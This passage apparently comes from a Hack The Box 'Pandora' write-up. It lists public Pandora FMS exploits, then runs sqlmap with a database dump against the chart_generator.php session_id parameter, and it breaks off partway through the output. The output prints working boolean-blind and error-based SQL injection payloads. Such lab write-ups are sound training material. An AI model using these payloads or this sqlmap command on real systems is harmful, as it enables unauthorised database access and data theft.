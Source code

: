 ```c
Pandora FMS 7.0 NG 750 - 'Network Scan' SQL Injection (Authenticated)                                                      | php/webapps/49312.txt
Pandora FMS 7.0NG - 'net_tools.php' Remote Code Execution                                                                  | php/webapps/48280.py
PANDORAFMS 7.0 - Authenticated Remote Code Execution                                                                       | php/webapps/48064.py
PandoraFMS 7.0 NG 746 - Persistent Cross-Site Scripting                                                                    | php/webapps/48707.txt
PandoraFMS NG747 7.0 - 'filename' Persistent Cross-Site Scripting                                                          | php/webapps/48700.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

But googling the specific version number, the [first link](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) will give interesting results

![Image](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Pandora/pics/3.png)

This version has ```Unauthenticated SQLi```, since we have ```mysql``` running lets try this,

[Exploit](https://github.com/0xDeku/CVE-2021-42666) referred to this CMS, where this SQLi is an ```Union based attack```

Lets run ```sqlmap``` on the vulnerable URI

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ sqlmap --url="http://localhost:8081/pandora_console/include/chart_generator.php?session_id=''" --dbms=mysql --dump
        ___
       __H__                                                                                                                                                 
 ___ ___[.]_____ ___ ___  {1.6.3#stable}                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:13:19 /2022-03-30/

[13:13:19] [INFO] testing connection to the target URL
[13:13:19] [WARNING] potential permission problems detected ('Access denied')
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=koihrjg9bqn...s4mdrdmie7'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-5176' OR 2190=2190#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=''' OR (SELECT 2464 FROM(SELECT COUNT(*),CONCAT(0x71766a6271,(SELECT (ELT(2464=2464,1))),0x7171626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IdPE

```